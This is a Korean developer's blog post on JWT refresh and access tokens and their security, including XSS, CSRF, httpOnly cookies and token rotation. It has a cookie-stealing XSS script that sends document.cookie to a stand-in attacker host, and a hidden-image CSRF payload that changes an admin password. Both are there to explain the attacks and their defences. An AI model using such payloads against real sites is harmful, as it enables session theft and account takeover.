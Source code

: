 ```yaml
---
title: "프로젝트 지식(6) - JWT(Refresh & Access)와 보안"
excerpt: ""

categories:
  - Project
tags:
  - Project101
toc: true
toc_label: "목차"
---
```


# 학습동기

이전에 JWT와 세션의 차이점에 대해서 간략하게 설명한 적이 있다. 그 때까지만 해도 JWT의 작동방식에 대해 잘 안다고 장담했었는데, 역시 사람은 자만하면 안되나보다. 소셜 로그인을 계속 다듬으면서 JWT의 동작 메커니즘과 보안문제에 대해 다시 한 번 생각해보고 있는데, 이번 기회에 정말 확실하게 그 개념을 잡아보려 한다!

# Refresh Token와 Access Token

Refresh Token와 Access Token은 기본적으로 JWT이다. 하지만 JWT의 보안상의 문제를 해결하기 위해 대안으로 나온 것인데, 그 메커니즘을 살펴보자.

<img src="https://drive.google.com/uc?export=view&id=1icQmcOlGqztaN2BMb-XtWeVK0JFpIZcH">

일단 기본원리는 다음과 같다. 사실 JWT가 기본 원리만 비슷하지 사용방식은 개발자 마음이기 때문에 정확히 딱 정해진 방식은 없다. 아래의 그림은 조금 더 간단하게 표현한 자료이다.

<img src="https://drive.google.com/uc?export=view&id=1kMbxQxh5cEzZej-TupOxczOc0vfKAAe8">

기본적인 원리는 파악했으니 이제 JWT에서 가장 말이 많은 보안에 대해 알아보도록 하자.

# JWT 보안문제

우선 JWT의 문제점을 살펴보도록 하자. 첫번째로 JWT는 윶 정보를 가지고 있다. 따라서 토큰이 탈취당하면 사용자 정보를 해커가 갖게 되는 것이다. 때문에 중요한 정보는 절대 토큰에 포함 시키면 안된다.

두번째는 JWT는 회수할 수가 없다. 세션처럼 서버단에서 임의로 세션을 삭제할 수 없기 때문에 한 번 해커에게 털리게 되면 유효 기간내에는 손 쓸 수가 없게 된다. 이러한 문제를 기반으로 토큰은 다양한 보안 이슈가 발생하는데 이를 한 번 알아보자.

1\. XSS 공격

악의적인 스크립트를 넣어놓고 이 스크립트를 읽게끔해서 유저의 정보를 빼오는 공격 기법이다. 주로 웹사이트 게시글에 악의적인 스크립트를 넣어 유저가 게시글에 들어가게끔 유도하여 공격한다.

예를 들어 아래와 같은 스크립트는 실행하게 되면 사용자가 가지고 있는 쿠키 또는 LocalStorage 값을 해커의 서버로 전송할 수 있게된다.

```
<script>document.location='http://hacker.com/cookie?'+document.cookie</script>
```

따라서 토큰을 localStorage에 저장하면 XSS 공격에 취약점이 생길 수 있다. 

이 문제를 해결하는 방법은 여러가지가 있다. 우선 백엔드 단에서 전송된 모든 데이터에 대해 sanitize을 하면 된다. 적절한 검증을 통해 공격이 될 수 있는 요소를 정제하고 DB에 저장해야 한다. 

또한 클라이언트에서는 localStorage나 쿠키에 값을 저장하는 것이 아니라 httpOnly 쿠키로 저장하여 XSS 공격을 막는 방법이 있다. 이 옵션을 지정하면 Script에서 쿠키를 읽어올 수가 없게 된다. 

2\. CSRF 공격

csrf에 대해서는 장고를 학습할 때 꾸준히 나오던거라 친숙하다. 하지만 그 개념은 잘 모르고 사용했기 때문에 이번 기회에 확실히 알고 쓰면 좋을 거 같다.

csrf 공격은 해커가 다른 사이트에서 우리 사이트의 API 콜을 요청해 실행하는 공격이다. 유저가 로그인해 있는 동안에(유효한 쿠키보유) 악성 스크립트를 실어보내 사용자의 쿠키를 사용해 명령을 실행하는 방법이다.

2008년 옥션 해킹 사건이 유명한데, 아래와 같은 코드를 실은 메일을 보내 관리자가 로그인해 있는 동안 해당 메일을 열람하게 한뒤 메일이 열리면 이미지 파일이 로딩되면서 src에 있는 링크가 자동으로 실행된다. 그러면서 관리자 계정을 탈취했던 것이다.

```
<img src="http://auction.com/changeUserAcoount?id=admin&password=admin" width="0" height="0">
```

# 해결방법

서치해본 결과 Set-cookie 헤더에 JWT를 실어보내면 이러한 문제를 해결할 수 있다고 한다. Set-cookie에 리프레시 토큰을, payload에 엑세스 토큰을 실어보내는 것이다. 이렇게 하면 로컬에 토큰을 보관하지 않아 CSRF 공격과 XSS 공격으로부터 방어할 수 있다.

리프레시 토큰은 한 번 노출되면 회수할 수 없는 문제점이 있는데, 이를 해결하기 위해 엑세스 토큰이 만료되어 다시 연장 요청을 할 때 새로운 엑세스 토큰과 함께 리프레시 토큰 또한 새로 주는 것이다. 이를 구현하기 위해서 Django에서는 blacklist를 활용하면 되는데, 이에 대해서는 다음에 자세히 알아보도록 하자!

# Reference

- <a href="https://velog.io/@yaytomato/%ED%94%84%EB%A1%A0%ED%8A%B8%EC%97%90%EC%84%9C-%EC%95%88%EC%A0%84%ED%95%98%EA%B2%8C-%EB%A1%9C%EA%B7%B8%EC%9D%B8-%EC%B2%98%EB%A6%AC%ED%95%98%EA%B8%B0#-%EA%B7%B8%EB%9E%98%EC%84%9C-%EB%A1%9C%EA%B7%B8%EC%9D%B8%EC%9D%84-%EC%96%B4%EB%96%BB%EA%B2%8C-%ED%95%9C%EB%8B%A4%EB%8A%94-%EA%B1%B0%EC%95%BC">프론트에서 안전하게 로그인 처리하기 (ft. React)</a>

- <a href="https://tansfil.tistory.com/59">쉽게 알아보는 서버 인증 2편(Access Token + Refresh Token)</a>